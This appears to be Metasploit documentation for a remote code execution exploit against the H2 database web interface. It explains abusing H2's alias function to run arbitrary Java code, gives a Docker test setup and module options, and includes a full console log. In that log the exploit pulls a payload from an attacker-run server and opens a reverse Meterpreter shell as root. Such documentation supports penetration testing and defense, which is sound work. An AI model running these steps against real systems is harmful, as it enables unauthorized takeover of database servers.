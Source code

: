## Vulnerable Application

The H2 database contains an alias function which allows for arbitrary Java code to be used.
This functionality can be abused to create an exec functionality to pull our payload down
and execute it. H2's web interface contains restricts MANY characters, so injecting a payload
directly is not favorable. A valid database connection is required. If the database engine
was configured to allow creation of databases, the module default can be used which
utilizes an in memory database. Some Docker instances of H2 don't allow writing to
folders such as /tmp, so we default to writing to the working directory of the software.

This module was tested against H2 version 2.1.214, 2.0.204, 1.4.199 (version detection fails)

### Application Install

The `ifNotExists` option is used to allow for creation of new databases from the web interface. This substantially speeds
up testing of the exploit.

```
docker run -d -p 1521:1521 -p 81:81 -v /path/to/local/data_dir:/opt/h2-data -e H2_OPTIONS=-ifNotExists --name=MyH2Instance oscarfonts/h2
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/h2_webinterface_rce`
1. Do: `set rhosts [ip]`
1. Do: `set rport [port]`
1. Do: `run`
1. You should get a shell.

## Options

### DATABASE

The database to connect to. If a default was already filled in, it is shown during module execution.
Defaults to `jdbc:h2:mem:` which is an in-memory DB to avoid writing to disc.

### GETVERSION

Will retrieve the version of the server. Most likely only works on 2.0.0+. Defaults to `true`

## Scenarios

### H2 Version 2.1.214 from Docker

```
msf6 > use exploit/linux/http/h2_webinterface_rce
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/h2_webinterface_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/h2_webinterface_rce) > set rport 81
rport => 81
msf6 exploit(linux/http/h2_webinterface_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/h2_webinterface_rce) > set lhost 111.111.11.111
lhost => 111.111.11.111
msf6 exploit(linux/http/h2_webinterface_rce) > set srvhost 111.111.11.111
srvhost => 111.111.11.111
msf6 exploit(linux/http/h2_webinterface_rce) > exploit

[*] Started reverse TCP handler on 111.111.11.111:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Obtaining jsessionid (cookie equivalent)
[+] jsessionid (cookie equivalent): ec97655f1aa8e1132fd8bd0e5581d9f0
[*] Detected autofilled DB: jdbc:h2:mem:
[+] The target is vulnerable. 127.0.0.1:81 - H2 web interface found, and database connection successful
[*] Obtaining jsessionid (cookie equivalent)
[+] jsessionid (cookie equivalent): 9828fc9f6bd0de76e0c88f44a07fc7bb
[+] H2 Version detected: 2.1.214
[*] Using URL: http://111.111.11.111:8080/D1OHj7
[*] Saving payload as AYZER67Th.sh
[*] Attempting to execute payload retrieval
[+] Received payload request
[*] Sending stage (24772 bytes) to 222.222.2.2
[*] Meterpreter session 1 opened (111.111.11.111:4444 -> 222.222.2.2:43968) at 2023-07-27 16:44:03 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
```
